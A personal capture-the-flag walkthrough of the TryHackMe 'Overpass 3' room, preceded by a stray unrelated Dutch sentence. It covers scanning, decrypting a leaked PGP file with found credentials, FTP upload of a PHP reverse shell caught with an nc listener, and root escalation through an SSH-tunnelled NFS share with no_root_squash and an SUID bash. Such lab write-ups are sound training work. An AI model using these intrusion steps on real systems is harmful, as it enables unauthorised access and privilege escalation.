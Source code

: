 ```niemand boeit er wat er in noord korea gebeurd, waarom zou afganistan oppeens anders zijn
Ehh?
room: https://tryhackme.com/room/overpass3hosting
Style: Unguided
Difficulty: Medium
```
1. Run nmap

2. Run Gobuster
we find an interesting folder called Backup. We download, unzip and inspect the files
```
unzip backup.zip
└─$ file priv.key4
priv.key: PGP private key block

└─$ file CustomerDetails.xlsx.gpg
CustomerDetails.xlsx.gpg: PGP RSA encrypted session key - keyid: 9E86A1C6 3FB96335 RSA (Encrypt or Sign) 2048b .
```

Here we find a Pretty Good Privacy (PGP) encrypted file, but luckily it also includes the private key. To be able to decrypt it, we first have to import the Private key into our GPG (OpenPGP encryption and signing tool).

```
gpg --import ./priv.key
pgp --decrypt CustomerDetails.xlsx.pgp > details.xlsx
```

Now we have a decrypted excel file, lets see if LibreOffice can open this file.

``libreoffice details.xslx``

Here we find some usernames and passwords, lets see what we can do with those.

We can login to the FTP using the "paradox" user, password: ShibesAreGreat123

Put doesnt seem to work, however mput allows me to upload files;

so we prepare a php reverse shell, and open a socket for us to receive the shell:

``rlwrap nc -lvnp 4444``

We open the file directly and voilla, we have a shell on the machine!

I ran linpeas, this is the most interesting snippet ;
``/home/james *(rw,fsid=0,sync,no_root_squash,insecure)no``

With the FTP password for paradox, we try to pivot to his user. This seems to work!

From here i added my own ssh pub key to the authorized_keys list and opened a normal ssh session.
    ~~INSERT HOWTO~~

After that i could SSH into the machine, i would think back to that possible NFS mount we saw linpeas report earlier;
``/home/james *(rw,fsid=0,sync,no_root_squash,insecure)no``

Trying to mount this on my local machine failed, because port 2049 was filtered so not accesible on the outside.
Since we do have an SSH connection, why not make a SSH tunnel and mount through that?

To setup an SSH tunnel, i used this command:
``ssh -fNv4 -L 3049:10.10.177.2:2049 paradox@10.10.177.2``

after we've completedly setup the tunnel lets try to mount this thing locally. Since we dont have access to port 111, we will have to force NFSv4 because all the others require the portmapper service.

```
sudo mount -t nfs 127.0.0.1:/ /tmp/nfs/  --verbose -o port=3049,vers=4.1
###note that without ,vers=4.1 it did not work, even when calling nfs4.
```

Took me a while to figure out you were not supposed to add /home/james to the folder but use the base of the share, which is already /home/james/.
Eventually we mounted the /home/james folder on our local machine through the SSH tunnel, which is pretty neat.

this shows us user.txt for james, and we can answer question #2

Now since no_root_squash is enabled, we can upload a bash binary owned by `root` with the suid set so it will also execute as root when copied onto the nfs mount.

``./bash -p ``

Gives us a Root bash and we can read /root/root.flag and finish the challenge.
